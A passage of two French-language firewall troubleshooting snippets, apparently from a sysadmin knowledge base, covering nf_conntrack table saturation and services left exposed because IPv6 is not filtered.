tags: conntrack,dos,nftables,performance
title: nf_conntrack table full : le pare-feu jette du trafic légitime
content: Symptôme : connexions qui échouent au hasard et message noyau « nf_conntrack: table full, dropping packet ». Cause : flood de SYN ou UDP, ou table sous-dimensionnée (net.netfilter.nf_conntrack_max). Correction : surveiller nf_conntrack_count/nf_conntrack_max, augmenter le maximum selon la RAM, réduire les timeouts, ajouter du rate limiting en amont.
description: La table de suivi d'état est bornée : la saturer transforme le pare-feu en point de déni de service. À surveiller en continu.
-->

<!-- snippet
id: firewall_ipv6_forgotten
type: error
tech: firewall
level: intermediate
importance: high
format: knowledge
tags: ipv6,pare-feu,nftables,audit
title: Service ouvert malgré les règles : IPv6 non filtré
content: Symptôme : nmap IPv4 ne montre que 443 mais le service d'administration répond ailleurs. Cause : règles iptables seulement, ip6tables vide, donc IPv6 en ACCEPT. Correction : nftables en famille inet ou politique drop sur IPv6 ; vérifier avec nmap -6 -p- <HOST6>.
description: Des règles écrites uniquement pour IPv4 laissent l'IPv6 ouvert. Utiliser la famille inet de nftables et tester aussi avec nmap -6.
-->
